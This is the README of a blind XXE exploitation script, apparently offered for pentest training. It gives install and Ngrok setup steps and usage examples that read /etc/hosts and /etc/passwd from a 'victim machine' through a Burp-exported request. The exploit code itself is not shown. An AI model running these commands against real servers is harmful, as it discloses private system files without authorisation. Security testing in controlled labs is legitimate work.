 # Blind XXE Xtractor BETA

Blind XXE Xtractor is a script created for educational purpose to test Blind XXE vulnerabilities in controlled environments, which has support for local and remote websites with XML requests. It's in BETA because I tested almost everything but it would give errors, so if you find an error please report it and I will try to fix it.

**WARNING!**  It might fail with some XML requests so don't completely believe it, try some manual methods to be sure.

## Prerequisites

- Some basic tools like *curl*
- [Burp Suite](https://portswigger.net/burp/releases#community)
- [Ngrok](https://ngrok.com/download) (Optional)

## Installation

### 1 Clone the repository

```bash
git clone https://github.com/mys3quel/Blind-XXE-Xtractor && cd Blind-XXE-Xtractor && chmod +x Blind-XXE-Xtractor.sh && ./Blind-XXE-Xtractor.sh
```

## Remote configure

### 1 Install Ngrok

```bash
curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
```
[Download Ngrok](https://ngrok.com/download)

### 2 Configure Ngrok

```bash
ngrok config add-authtoken your_token_here
```
[Get your token here](https://dashboard.ngrok.com/get-started/your-authtoken)

## Usage

```bash
./Blind-XXE-Xtractor.sh -h
```

### Examples

#### Run script in guide mode
```bash
./Blind-XXE-Xtractor.sh -g
```

#### Read the /etc/hosts of the victim machine using the exported request from BurpSuite
```bash
./Blind-XXE-Xtractor.sh -b burpFile -f /etc/hosts
```

#### Read the /etc/passwd of the victim machine using the exported request from BurpSuite and a custom port for the connection
```bash
./Blind-XXE-Xtractor.sh -b burpFile -f /etc/passwd -p 90
```
